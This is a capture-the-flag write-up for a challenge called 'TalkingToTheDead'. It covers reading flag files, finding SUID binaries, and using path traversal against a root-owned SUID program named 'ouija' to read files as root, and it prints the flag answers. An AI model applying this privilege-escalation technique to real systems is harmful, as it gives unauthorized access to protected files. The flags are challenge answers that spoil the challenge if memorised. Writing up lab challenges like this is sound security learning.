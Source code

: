 # TalkingToTheDead

## Flag1 and Flag2

Basically flag1.txt and flag2.txt were in  luciafer documents. Just move to that folder and use `cat flag1.txt`:
```
flag{cb07e9d6086d50ee11c0d968f1e5c4bf1c89418c}
```
and `cat .flag2.txt`:
```
flag{728ec98bfaa302b2dfc2f716d3de7869f3eadcbf}
```

## Flag3

Then looking for SUID bit files with `find / -perm /4000 2> /dev/null` we found something funny: `/usr/local/bin/ouija`

That executable was owned by `root` and has the SUID bit set so it will be run as him. This executable will take the input and append `/root/` to it, basically to read a file from that folder. Using relatives paths we were able to read every file we want with it.

Just use `ouija ../home/spookyboi/Documents/flag3.txt` and get your flag

```
flag{445b987b5b80e445c3147314dbfa71acd79c2b67}
```

## Flag4

Do you remember that `ouija` append the `/root/` string to our input? Well we tried `ouija flag4.txt` and the flag appeared

```
flag{4781cbffd13df6622565d45e790b4aac2a4054dc}
```
